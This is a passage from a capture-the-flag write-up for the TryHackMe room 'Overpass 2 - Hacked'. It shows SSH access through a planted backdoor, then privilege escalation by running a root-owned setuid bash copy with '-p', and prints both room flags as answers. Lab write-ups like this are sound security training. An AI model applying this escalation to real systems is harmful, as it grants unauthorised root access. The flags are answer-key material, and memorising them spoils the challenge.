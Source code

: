```
kali@kali:~/CTFs/tryhackme/Overpass 2 - Hacked$ ssh -p 2222 james@10.10.183.197
The authenticity of host '[10.10.183.197]:2222 ([10.10.183.197]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.183.197]:2222' (RSA) to the list of known hosts.
james@10.10.183.197's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ cd ~
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james$ 
```

`thm{d119b4fa8c497ddb0525f7ad200e6567}`

3. What's the root flag?

```
james@overpass-production:/home/james$ ls -la
total 1136
drwxr-xr-x 7 james james    4096 Jul 22 03:40 .
drwxr-xr-x 7 root  root     4096 Jul 21 18:08 ..
lrwxrwxrwx 1 james james       9 Jul 21 18:14 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21 00:36 .cache
drwx------ 3 james james    4096 Jul 21 00:36 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22 03:35 .local
-rw------- 1 james james      51 Jul 21 17:45 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21 00:37 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22 03:35 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22 03:40 user.txt
drwxrwxr-x 7 james james    4096 Jul 21 01:37 www
```

`-rwsr-sr-x 1 root  root  1113504 Jul 22 02:57 .suid_bash`

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt 
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# 
```

`thm{d53b2684f169360bb9606c333873144d}`